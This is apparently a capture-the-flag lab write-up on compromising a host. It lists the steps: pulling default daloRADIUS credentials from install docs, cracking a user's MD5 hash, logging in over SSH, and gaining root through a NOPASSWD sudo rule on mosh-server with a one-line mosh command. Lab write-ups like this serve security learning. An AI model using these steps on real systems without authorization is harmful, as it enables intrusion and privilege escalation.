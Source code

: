 1. **Extracting Default Credentials:**
	- Analyzed the file `/daloradius/doc/install/INSTALL` to find default credentials:
2. **Logging into the Application:**
	- Accessed the login page at `/daloradius/app/operators/home-main.php` and authenticated using the extracted credentials.
3. **Cracking User Passwords:**
	- Extracted the MD5 hash of the `svcMosh` user from the user list and cracked it using a password cracker
4. **Gaining Initial Access:**
	- Authenticated via SSH using the cracked credentials
	 `ssh svcMosh@10.10.11.48`
5. **Identifying Privilege Escalation Vectors:**
	- Checked sudo privileges for the `svcMosh` user:
		sudo -l
		Result:
		User svcMosh may run the following commands on localhost:
		(ALL) NOPASSWD: /usr/bin/mosh-server
6. **Exploiting Mosh for Privilege Escalation:**
	- Used the following command to escalate privileges to root:
		`mosh --server="sudo /usr/bin/mosh-server" localhost`
